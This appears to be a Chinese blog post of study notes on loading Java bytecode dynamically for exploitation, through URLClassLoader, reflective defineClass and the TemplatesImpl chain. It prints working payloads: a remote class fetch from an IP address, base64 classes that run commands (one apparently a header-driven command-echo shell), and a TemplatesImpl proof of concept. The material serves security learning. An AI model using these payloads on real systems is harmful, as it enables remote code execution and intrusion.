








# 前言

开始学习P神的《Java安全漫谈 - 13.Java中动态加载字节码的那些方法》。涉及到了很多类加载器的知识，幸好我之前学习过了，因此理解这一块的内容非常的轻松。


# Java的字节码

直接放一下P神的定义：



所有能够恢复成一个类并在JVM虚拟机里加 载的字节序列，都在我们的探讨范围内。


# 远程加载class文件

建议先好好了解一下类加载器。

之前我学习类加载器的时候也学习了：

https://blog.csdn.net/rfrder/article/details/119456460

直接放代码了：

```java
       URL[] urls = {new URL("http://118.31.168.198:39876/")};
        URLClassLoader loader = new URLClassLoader(urls);
        Class clazz = loader.loadClass("EvilTest");
        clazz.newInstance();
```



`URLClassLoader`类的注释已经说明的很清楚了：

```java
这个类加载器用于从引用 JAR 文件和目录的 URL 的搜索路径加载类和资源。 任何以“/”结尾的 URL 都被假定为指向一个目录。 否则，该 URL 被假定为引用将根据需要打开的 JAR 文件。
创建 URLClassLoader 实例的线程的 AccessControlContext 将在随后加载类和资源时使用。
默认情况下，加载的类仅被授予访问创建 URLClassLoader 时指定的 URL 的权限。
```


之前已经了解过的东西就不再细说了，直接看一下重点。


# 利用defineClass直接加载字节码

这部分的知识需要联系到 自定义类加载器中的知识了。

之前了解过了类加载的流程，主要就是`loadClass()`函数的流程，以及自定义的类加载器，当时写的这个自定义类加载器：

```java
package com.javalearn.summer.classloader;

import java.io.*;

public class TestClassLoader extends ClassLoader
{
    private String classPath;
    public TestClassLoader(String classPath){
        this.classPath = classPath;
    }
    private String getFileName(String fileName){
        int index = fileName.lastIndexOf('.');
        if (index == -1){
            return fileName + ".class";
        }else {
            return fileName.substring(index + 1) + ".class";
        }
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        String fileName = getFileName(name);

        File file = new File(classPath, fileName);
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            int len = 0;
            try {
                while ((len = fileInputStream.read()) != -1) {
                    byteArrayOutputStream.write(len);
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
            byte[] data = byteArrayOutputStream.toByteArray();
            fileInputStream.close();
            byteArrayOutputStream.close();
            return defineClass(name, data, 0, data.length);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }

        return super.findClass(name);
    }
}
```

简单来说就是找到`class`文件的路径，然后读取内容，然后加载。关键就是这里：

```java
            byte[] data = byteArrayOutputStream.toByteArray();


            return defineClass(name, data, 0, data.length);
```

最终的自定义`findClass`需要调用`defineClass()`函数，将类的名字和类的`class`文件的字节数组传进去，进行类的定义：

> Converts an array of bytes into an instance of class Class, with an optional ProtectionDomain. If the domain is null, then a default domain will be assigned to the class as specified in the documentation for defineClass(String, byte[], int, int). Before the class can be used it must be resolved.
> The first class defined in a package determines the exact set of certificates that all subsequent classes defined in that package must contain. The set of certificates for a class is obtained from the CodeSource within the ProtectionDomain of the class. Any classes added to that package must contain the same set of certificates or a SecurityException will be thrown. Note that if name is null, this check is not performed. You should always pass in the binary name of the class you are defining as well as the bytes. This ensures that the class you are defining is indeed the class you think it is.
> The specified name cannot begin with "java.", since all classes in the "java.* packages can only be defined by the bootstrap class loader. If name is not null, it must be equal to the binary name of the class specified by the byte array "b", otherwise a NoClassDefFoundError will be thrown.
>
> 使用可选的ProtectionDomain将字节数组转换为类Class的实例。 如果域为null ，则默认域将分配给defineClass(String, byte[], int, int)文档中指定的类。 在类可以使用之前，它必须被解析。
> 包中定义的第一个类确定该包中定义的所有后续类必须包含的确切证书集。 类的证书集是从类的ProtectionDomain中的CodeSource获得的。 添加到该包中的任何类都必须包含相同的证书集，否则将抛出SecurityException 。 请注意，如果name为null ，则不会执行此检查。 您应该始终传入您定义的类的二进制名称以及字节。 这确保您定义的类确实是您认为的类。
> 指定的名称不能以“ java. ”开头，因为“ java.*包中的所有类只能由引导类加载器定义。如果name不为null ，则它必须等于由指定的类的二进制名称字节数组“ b ”，否则将抛出NoClassDefFoundError 。


至于再具体的`defineClass()`方法是如何实现的，就要跟到这个native方法了：

```java
    private native Class<?> defineClass1(String name, byte[] b, int off, int len,
                                         ProtectionDomain pd, String source);
```

了解到，`defineClass()`是怎么用的就可以了。

因此直接利用这个`defineClass()`来加载字节码就清晰了：



然后动态加载一波：

```java
package com.summer.templatesImpl;

import java.lang.reflect.Method;
import java.util.Base64;

public class TestDefineClass {
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("java.lang.ClassLoader");
        Method defineClassMethod = clazz.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClassMethod.setAccessible(true);
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAHAoABgAPCgAQABEIABIKABAAEwcAFAcAFQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAWAQAKU291cmNlRmlsZQEADUV2aWxUZXN0LmphdmEMAAcACAcAFwwAGAAZAQAEY2FsYwwAGgAbAQAIRXZpbFRlc3QBABBqYXZhL2xhbmcvT2JqZWN0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAEAAQAHAAgAAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAAFAAQABgANAAcACwAAAAQAAQAMAAEADQAAAAIADg==");
        Class targetClass = (Class) defineClassMethod.invoke(ClassLoader.getSystemClassLoader(),"EvilTest",bytes,0,bytes.length);
        targetClass.newInstance();

    }
}

```




还需要注意下类加载的时候类初始化的问题，之前也学习过了：

> `Class.forName("类名")`默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用`Class.forName("类名", 是否初始化类, 类加载器)`，而`ClassLoader.loadClass`默认不会初始化类方法。

即使是`static{}`里的代码也不会执行。


虽然可以用，但是：



所以还需要了解一下`TemplatesImpl`。

js:

```java
                var classBytes = null;
              var c = java.lang.Thread.currentThread().getContextClassLoader();
                            var code = "yv66vgAAADQAuQoALwBfCgBgAGEKAGAAYggAYwoAZABlCABmBwBnCgAHAGgHAGkKAGoAawgAbAgAbQgAbggAbwgATQoABwBwCABxCABOBwByCgBqAHMIAFAIAHQKAHUAdgoAEwB3CAB4CgATAHkIAHoIAHsKABMAfAgAfQgAfggAfwgAgAoACQCBCACCBwCDCgCEAIUKAIQAhgoAhwCICgAkAIkIAIoKACQAiwoAJACMCACNCACOBwCPBwCQAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAApMRXZpbFRlc3Q7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHAJEBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAAWMBABFMamF2YS9sYW5nL0NsYXNzOwEAAW0BABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEAAW8BABJMamF2YS9sYW5nL09iamVjdDsBAAJtMQEABHJlc3ABAANyZXEBAAlnZXRXcml0ZXIBAAlnZXRIZWFkZXIBAAZ3cml0ZXIBAANjbWQBABJMamF2YS9sYW5nL1N0cmluZzsBAAhjb21tYW5kcwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAtjaGFyc2V0TmFtZQEADVN0YWNrTWFwVGFibGUHAI8HAGcHAJIHAGkHAHIHAFMHAJMBAApTb3VyY2VGaWxlAQANRXZpbFRlc3QuamF2YQwAQgBDBwCUDACVAJYMAJcAmAEAPG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5SZXF1ZXN0Q29udGV4dEhvbGRlcgcAmQwAmgCbAQAUZ2V0UmVxdWVzdEF0dHJpYnV0ZXMBAA9qYXZhL2xhbmcvQ2xhc3MMAJwAnQEAEGphdmEvbGFuZy9PYmplY3QHAJIMAJ4AnwEAQG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5TZXJ2bGV0UmVxdWVzdEF0dHJpYnV0ZXMBAAtnZXRSZXNwb25zZQEACmdldFJlcXVlc3QBAB1qYXZheC5zZXJ2bGV0LlNlcnZsZXRSZXNwb25zZQwAoACdAQAlamF2YXguc2VydmxldC5odHRwLkh0dHBTZXJ2bGV0UmVxdWVzdAEAEGphdmEvbGFuZy9TdHJpbmcMAKEAogEAB29zLm5hbWUHAKMMAKQApQwApgCnAQAGd2luZG93DACoAKkBAANHQksBAAVVVEYtOAwAqgCnAQADV0lOAQACL2MBAAcvYmluL3NoAQACLWMMAKsArAEAB3ByaW50bG4BABFqYXZhL3V0aWwvU2Nhbm5lcgcArQwArgCvDACwALEHALIMALMAtAwAQgC1AQACXEEMALYAtwwAuACnAQAFZmx1c2gBAAVjbG9zZQEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAE2phdmEvbGFuZy9FeGNlcHRpb24BABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQARZ2V0RGVjbGFyZWRNZXRob2QBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQALdG9VcHBlckNhc2UBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAKihMamF2YS9pby9JbnB1dFN0cmVhbTtMamF2YS9sYW5nL1N0cmluZzspVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEABG5leHQAIQAuAC8AAAAAAAMAAQAwADEAAgAyAAAAPwAAAAMAAAABsQAAAAIAMwAAAAYAAQAAAA8ANAAAACAAAwAAAAEANQA2AAAAAAABADcAOAABAAAAAQA5ADoAAgA7AAAABAABADwAAQAwAD0AAgAyAAAASQAAAAQAAAABsQAAAAIAMwAAAAYAAQAAABQANAAAACoABAAAAAEANQA2AAAAAAABADcAOAABAAAAAQA+AD8AAgAAAAEAQABBAAMAOwAAAAQAAQA8AAEAQgBDAAIAMgAAAsMACQANAAABeyq3AAG4AAK2AAMSBLYABUwrEgYDvQAHtgAITSwBA70ACbYACk64AAK2AAMSC7YABUwrEgwDvQAHtgAITSsSDQO9AAe2AAg6BCwtA70ACbYACjoFGQQtA70ACbYACjoGuAACtgADEg62AAUSDwO9AAe2ABA6B7gAArYAAxIRtgAFEhIEvQAHWQMSE1O2ABA6CBkIBLYAFBkHBLYAFBkHGQUDvQAJtgAKOgkZCBkGBL0ACVkDEhVTtgAKwAATOgoGvQATOgsSFrgAF7YAGBIZtgAamQAIEhunAAUSHDoMEha4ABe2AB0SHrYAGpkAEhkLAxIVUxkLBBIfU6cADxkLAxIgUxkLBBIhUxkLBRkKUxkJtgAiEiMEvQAHWQMSE1O2ABAZCQS9AAlZA7sAJFm4ACUZC7YAJrYAJxkMtwAoEim2ACq2ACtTtgAKVxkJtgAiEiwDvQAHtgAQGQkDvQAJtgAKVxkJtgAiEi0DvQAHtgAQGQkDvQAJtgAKV7EAAAADADMAAABuABsAAAAVAAQAFwAQABgAGwAZACUAGgAxABsAPAAcAEgAHQBTAB4AXwAfAHUAIACQACEAlgAiAJwAIwCpACQAvgAlAMQAJgDdACcA7QAoAPMAKQD8ACsBAgAsAQgALgEOAC8BSgAwAWIAMQF6ADIANAAAAIQADQAAAXsANQA2AAAAEAFrAEQARQABABsBYABGAEcAAgAlAVYASABJAAMASAEzAEoARwAEAFMBKABLAEkABQBfARwATABJAAYAdQEGAE0ARwAHAJAA6wBOAEcACACpANIATwBJAAkAvgC9AFAAUQAKAMQAtwBSAFMACwDdAJ4AVABRAAwAVQAAADgABP8A2QAMBwBWBwBXBwBYBwBZBwBYBwBZBwBZBwBYBwBYBwBZBwBaBwBbAABBBwBa/AAgBwBaCwA7AAAABAABAFwAAQBdAAAAAgBe";
              var clazz = java.lang.Class.forName("sun.misc.BASE64Decoder");
                        classBytes = clazz.getMethod("decodeBuffer",java.lang.String.class).invoke(clazz.newInstance(), code);
              var byteArray = Java.type("byte[]");
                        var int = Java.type("int");
              var defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod("defineClass",byteArray.class,int.class,int.class);
                        defineClassMethod.setAccessible(true);
                        var cc = defineClassMethod.invoke(c,classBytes,0,classBytes.length);
              var dd = cc.newInstance();
```


# TemplatesImpl加载字节码

总的来说就是一条利用链。`defineClass()`在`TemplatesImpl`内部的静态类`TransletClassLoader`被重载了：

```java
    static final class TransletClassLoader extends ClassLoader {
        private final Map<String,Class> _loadedExternalExtensionFunctions;

         TransletClassLoader(ClassLoader parent) {
             super(parent);
            _loadedExternalExtensionFunctions = null;
        }

        TransletClassLoader(ClassLoader parent,Map<String, Class> mapEF) {
            super(parent);
            _loadedExternalExtensionFunctions = mapEF;
        }

        public Class<?> loadClass(String name) throws ClassNotFoundException {
            Class<?> ret = null;
            // The _loadedExternalExtensionFunctions will be empty when the
            // SecurityManager is not set and the FSP is turned off
            if (_loadedExternalExtensionFunctions != null) {
                ret = _loadedExternalExtensionFunctions.get(name);
            }
            if (ret == null) {
                ret = super.loadClass(name);
            }
            return ret;
         }

        /**
         * Access to final protected superclass member from outer class.
         */
        Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
    }
```

作用域是`default`，可以在当前类和同包里被利用。

再跟一下，发现它在`TemplatesImpl`类的`private`方法`defineTransletClasses`被调用：

```java
    private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }

        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });

        try {
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];

            if (classCount > 1) {
                _auxClasses = new HashMap<>();
            }

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
```


而`defineTransletClasses`在`getTransletInstance`中调用：

```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();
```

`getTransletInstance`又在`newTransformer`中被调用。

```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
```

而`newTransformer`是个`public`方法，可以被外部调用，至此这条链的结构就理清了：

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```


具体的构造还需要一点细节上的关注，通过对整个利用链代码的审计，构造出来这样的POC：

```java
package com.summer.templatesImpl;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.util.Base64;

public class Learn {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","feng");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```


首先`TemplatesImpl`有这么一个构造器，因此直接用生成对象即可，后续的属性直接拿反射来设置：

```java
    public TemplatesImpl() { }
```


在`getTransletInstance`方法中，首先有这样的限制：

```java
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();
```


因为我们产生`TemplatesImpl`对象的时候，没有影响到任何的属性，而`_name`默认是`null`的，所以`_name`需要给设定一个值。而`_class`则不用管，因为本来就是`null`：

```java
        setFieldValue(templates,"_name","feng");
```


进入`defineTransletClasses`，首先就是这个：

```java
        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }
```

不能为null，但是继续看逻辑（忽略无用代码）：

```java
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
```

因此`_bytecodes[0]`就该是我们要加载的类的字节数组：

```java
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
```

中间还有个这个：

```java
        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });
```

`run()`方法中调用了`_tfactory.getExternalExtensionsMap()`，所以`_tfactory`不能为`null`：

```java
    private transient TransformerFactoryImpl _tfactory = null;
```

构造一下对象即可：

```java
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

这样就可以整条链通了。


最后的一个限制就是，**TemplatesImpl 中对加载的字节码是有一定要求的：这个字节码对应的类必须 是 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet 的子类。**


所以还需要改一下：

```java
root@iZbp14tgce8absspjkxi3iZ:~# cat EvilTest.class|base64
yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1
bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNo
ZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUB
